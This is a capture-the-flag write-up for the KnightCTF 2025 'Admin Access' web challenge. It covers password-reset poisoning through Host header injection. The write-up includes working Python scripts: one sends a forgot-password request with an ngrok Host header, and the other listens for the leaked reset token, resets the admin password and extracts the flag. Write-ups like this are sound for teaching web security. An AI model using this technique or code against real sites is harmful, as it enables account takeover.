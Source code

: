 
# Admin Access

<!--more-->
### Initial Analysis

The site appeared as follows, with a login screen:

![Site Presentation](/images/KnightCTF-2025/Admin-Access/site_presentation.png "Site Presentation")

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![Admin Email](/images/KnightCTF-2025/Admin-Access/admin_email.png "Admin Email")

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![Forgot Password](/images/KnightCTF-2025/Admin-Access/forgot_password.png "Forgot Password")

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:
{{< typeit code=bash >}}
ngrok http 80
{{< /typeit >}}
And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![Intercept](/images/KnightCTF-2025/Admin-Access/intercept.png "Intercept")

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![Manual Flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png "Manual Flag")

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
{{< /typeit >}}
{{< /admonition >}}
